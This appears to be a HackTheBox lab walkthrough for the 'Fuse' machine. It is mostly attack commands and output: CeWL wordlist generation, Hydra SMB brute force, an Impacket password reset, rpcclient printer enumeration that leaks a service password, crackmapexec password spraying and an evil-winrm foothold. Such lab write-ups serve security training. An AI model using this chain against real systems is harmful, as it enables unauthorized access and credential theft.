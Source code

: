 ## Brute Force
#### Cewl to get a pwd dictionary
It may take a minute or so
```bash
❯ cewl --with-numbers http://fuse.fabricorp.local/papercut/logs/html/index.htm -w cewl3.txt  
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```


#### Hydra
It may take two or three minutes
```bash
❯ cat users.txt  
pmerton  
tlavel   
❯ export IP=10.129.2.5           
❯ hydra -L users.txt -P cewl3.txt $IP smb
[445][smb] host: 10.129.2.5   login: tlavel   password: Fabricorp01
```
## SMB 
#### smbclient
```bash
❯ smbclient -L $IP -U tlavel  
Password for [WORKGROUP\tlavel]:  
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
```
#### smbpasswd to update it
```bash
smbpasswd -r $IP -U tlavel <- won't work, use impacket instead

❯ /usr/bin/impacket-smbpasswd -newpass Qwer4321= tlavel:Fabricorp01@$IP  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation  
  
[!] Password is expired, trying to bind with a null session.  
[*] Password was changed successfully.
```
## RPC enum printers
```bash
❯ rpcclient -U "tlavel" $IP  
Password for [WORKGROUP\tlavel]:  
rpcclient $> enumprinters  
       flags:[0x800000]  
       name:[\\10.129.2.5\HP-MFT01]  
       description:[\\10.129.2.5\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]  
       comment:[]
❯ cat enumdomusers.txt | cut -d "]" -f1 | cut -d "[" -f2
```
#### Optional: crackmapexec build users.list
```
❯ crackmapexec smb $IP -u bhult -p Qwer4321=
```
## Password Spray
* https://github.com/A1vinSmith/OSCP-PWK/blob/master/HackTheBox/Windows/Active%20Directory/Forest/README.md#password-spraying---making-a-target-user-list-htb-academy
```bash
❯ crackmapexec winrm $IP -u users.txt -p '$fab@s3Rv1ce$1'  
SMB         10.129.2.5      5985   FUSE             [*] Windows 10.0 Build 14393 (name:FUSE) (domain:fabricorp.local)  
HTTP        10.129.2.5      5985   FUSE             [*] http://10.129.2.5:5985/wsman  
WINRM       10.129.2.5      5985   FUSE             [-] fabricorp.local\Administrator:$fab@s3Rv1ce$1  
WINRM       10.129.2.5      5985   FUSE             [-] fabricorp.local\Guest:$fab@s3Rv1ce$1  
WINRM       10.129.2.5      5985   FUSE             [-] fabricorp.local\krbtgt:$fab@s3Rv1ce$1  
WINRM       10.129.2.5      5985   FUSE             [-] fabricorp.local\DefaultAccount:$fab@s3Rv1ce$1  
WINRM       10.129.2.5      5985   FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 (Pwn3d!)
```
## Foothold
```bash
❯ evil-winrm -i $IP -u svc-print -p '$fab@s3Rv1ce$1'
```
